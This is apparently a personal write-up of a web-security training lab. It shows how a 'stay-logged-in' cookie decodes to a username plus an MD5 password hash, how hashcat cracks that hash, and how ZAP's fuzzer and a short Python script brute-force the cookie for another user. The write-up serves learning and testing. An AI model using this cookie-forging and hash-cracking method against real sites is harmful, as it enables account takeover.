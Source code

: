 #web #webexploitation #webpenetrationtest #zaproxy 

"normal" login (without selecting "stay logged in" checkbox)

username: `wiener`
password: `peter`

![](_attachment/Pasted%20image%2020250117123636.png)

![](_attachment/Pasted%20image%2020250117123719.png)

```http
POST https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
Origin: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
Connection: keep-alive  
Cookie: session=ZvCSkk26OqMnYNDQZiqMdhkQW0zN2si1  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1

username=wiener&password=peter
```

response:

```http
HTTP/1.1 302 Found  
Location: /my-account?id=wiener  
Set-Cookie: session=nFrWlPsdJSmLqhnYyr2kLdL6xNmplsz2; Secure; HttpOnly; SameSite=None  
X-Frame-Options: SAMEORIGIN  
Connection: close  
Content-Length: 0
```

with "stay logged in":

![](_attachment/Pasted%20image%2020250117124028.png)

```http
POST https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 48  
Origin: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
Connection: keep-alive  
Cookie: session=9YM5gZ9Q1CSnlDciMgg46UcP178WsxxA  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1

username=wiener&password=peter&stay-logged-in=on
```

response:

```http
HTTP/1.1 302 Found  
Location: /my-account?id=wiener  
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC  
Set-Cookie: session=tuo7amuGhx6Rhl2UFW96fKj2OK8QLpJP; Secure; HttpOnly; SameSite=None  
X-Frame-Options: SAMEORIGIN  
Connection: close  
Content-Length: 0
```

access to wiener's page:

```http
GET https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/my-account?id=wiener HTTP/1.1  
host: 0ae1009b0345b1ad84f77c4700460088.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Referer: https://0ae1009b0345b1ad84f77c4700460088.web-security-academy.net/login  
Connection: keep-alive  
Cookie: session=tuo7amuGhx6Rhl2UFW96fKj2OK8QLpJP; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw  
Upgrade-Insecure-Requests: 1  
Sec-Fetch-Dest: document  
Sec-Fetch-Mode: navigate  
Sec-Fetch-Site: same-origin  
Sec-Fetch-User: ?1
```

We notice this cookie value: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`

Let's try if we can base64-decode it:

```bash
joshua@kaligra:~$ echo -n "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" | base64 -d
wiener:51dc30ddc473d43a6011e9ebba6ca770
```

Cool!

Let's try to crack the second half (which looks like an MD5 hash):

```bash
$ hashcat -m0 51dc30ddc473d43a6011e9ebba6ca770 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

..
..
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

51dc30ddc473d43a6011e9ebba6ca770:peter
..
..


Started: Fri Jan 17 19:32:31 2025
Stopped: Fri Jan 17 19:32:49 2025

```



So far, the "formula" for password seems to be:

`base64(cleartextusername+":"+md5sum(password))`  

We can use the candidate passwords list file and use Zaproxy's **processor**

Pick a request to `/my-account/id=wiener` and strip the `wiener` part

![](_attachment/Pasted%20image%2020250117195047.png)

**remember: we need to STRIP the session= cookie value!** 

Right click on selected text (`stay-logged-in` cookie value) and select Fuzz:

## first step

select "Strings" and copy/paste candidate list:

![](_attachment/Pasted%20image%2020250117195822.png)

## second step

add MD5 hash

![](_attachment/Pasted%20image%2020250117195847.png)

![](_attachment/Pasted%20image%2020250117195901.png)

## third step

add prefix (`carlos:`)

![](_attachment/Pasted%20image%2020250117195929.png)

## fourth step

base64 encoding:

![](_attachment/Pasted%20image%2020250117195956.png)

## start attack!

![](_attachment/Pasted%20image%2020250117200337.png)

We will found a `200 OK` response, that means we solved the lab :)

## python script to populate cookie list


```python
#!/usr/bin/python3

import base64
import hashlib

f = open("3password")
for l in f:
    bb = hashlib.md5(bytes(l.rstrip().encode())).hexdigest()
    fs = ("carlos"+str(":")+bb)
    print(base64.b64encode(fs.encode()).decode('ascii'))
```






